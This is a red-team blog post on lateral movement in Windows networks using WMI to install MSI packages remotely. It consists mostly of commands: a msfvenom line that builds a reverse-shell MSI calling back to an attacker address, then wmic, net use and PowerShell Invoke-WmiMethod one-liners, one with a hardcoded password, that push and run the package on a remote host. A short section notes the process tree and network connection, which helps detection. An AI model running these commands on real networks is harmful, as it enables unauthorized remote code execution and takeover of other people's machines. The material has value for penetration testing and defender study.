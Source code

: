```yaml
---
layout: post
title: "wmi + msi lateral movement"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement/
---
```


---
description: WMI lateral movement with .msi packages
---

# WMI + MSI Lateral Movement

## Execution

Generating malicious payload in MSI (Microsoft Installer Package):

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 17-31-00.png>)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% code title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-45-55.png>)

I had to revert to a filthy way of achieving the goal:

{% code title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode %}

![](<../../.gitbook/assets/Peek 2018-10-19 18-41.gif>)

Additionally, the same could of be achieved using powershell cmdlets:

{% code title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode %}

Get a prompt for credentials:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-02-10.png>)

and enjoy the code execution:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-02-48.png>)

Or if no GUI is available for credentials, a oneliner:

{% code title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-09-42.png>)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-46-37.png>)

and that the connection is initiated by the .tmp file (I ran another test, hence another file name):

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-55-53.png>)

## References

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}
@spotheplanet
